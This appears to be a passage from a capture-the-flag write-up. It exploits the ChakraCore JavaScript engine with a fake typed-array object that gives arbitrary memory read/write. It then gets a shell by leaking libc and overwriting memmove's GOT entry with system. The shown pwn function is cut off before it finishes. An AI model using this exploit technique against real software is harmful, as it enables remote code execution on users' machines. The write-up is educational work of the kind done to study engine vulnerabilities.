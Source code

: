 As for read/write primitive, it first assign the address in `real[14]` & `real[15]` to modify the data buffer's pointer, then use `fakeobj` to obtain the handle of the fake `Uint32Array` object:

```javascript
    // the following creates an object which we will use to read and write
    // memory arbitrarily
    var memory = {
        handle: fakeobj(real_addr + 0x58), // return fake object
        init: function(addr) {
            // we set the buffer pointer of the fake Uint32Array to the 
            // target address
            real[14] = lower(addr);
            real[15] = upper(addr);

            // Now get a handle to the fake object!
            return memory.handle;
        },
```

Later it can just use the fake object handle to read/write the memory content.

### getting shell

Here I modified the exploit code and use the same exploit method as the feuerfuchs challenge to get the shell:

1. Leak the base address of `libChakraCore.so`
2. Get the base address of `libc.so` by leaking `write@got.plt`
3. Overwrite `memmove@got.plt` to `system`
4. Execute `system([cmd])` by calling `Uint8Array.set()`

```javascript
function pwn() {

    // exploit the bug and create our arbitrary r/w primitive
    var mem = gimme_rw();

    // get the base of libChakraCore.so                                                                                                                                                                     
    var base = get_base(mem);
    console.log("[+] base @ " + base.toString(16));

    // the following offets are hardcoded
    var memmove_got = base + 0xd9b0f0;
    console.log("[+] memmove_got @ " + memmove_got.toString(16));
    var write_got = base + 0xd9b780;
    console.log("[+] write_got @ " + write_got.toString(16));
    var write_addr = mem.read64(write_got);
    console.log("[+] write_addr @ " + write_addr.toString(16));
    var system = write_addr - 0xe3a100;
    console.log("[+] system @ " + system.toString(16));

    // now set up our command 
    var cmd = "/usr/bin/xcalc\0";

    // write the command into a Uint8Array
    var target = new Uint8Array(0x1234);
    for (var i = 0; i < cmd.length; i++) {
        target[i] = cmd.charCodeAt(i);
    }   

    // overwrite memmove with system
    mem.write32(memmove_got, lower(system));
    mem.write32(memmove_got+4, upper(system));

```